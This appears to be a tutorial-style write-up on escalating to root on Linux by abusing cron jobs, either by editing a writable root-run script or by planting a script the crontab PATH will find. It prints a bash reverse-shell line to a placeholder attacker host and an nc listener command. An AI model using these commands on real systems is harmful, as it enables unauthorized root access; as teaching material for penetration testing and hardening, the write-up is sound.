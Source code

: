 Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under ```/etc/crontab```

![Screenshot from 2024-09-29 01-35-10](https://github.com/user-attachments/assets/3c66a139-7a4a-4044-a61d-e190d4f5fb7c)



You can see the ```backup.sh``` script was configured to run every minute with root access.

As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges. So we should edit this file to make a reverse sell.
```
#! /bin/bash

bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```
After this we should setup a listener to recieve or connection:
```
nc -nlvp <ATTACKER_PORT>
```

![Screenshot from 2024-09-29 01-46-01](https://github.com/user-attachments/assets/8d8dc417-5c7e-4eb9-920f-98cf50ece95d)

The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the ```PATH```variable in the ```/etc/cronta```b file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.

Finallly, we could creat ```antivirus.sh``` file and insert into the reverse shell code and setup a listener to recieve or connection.




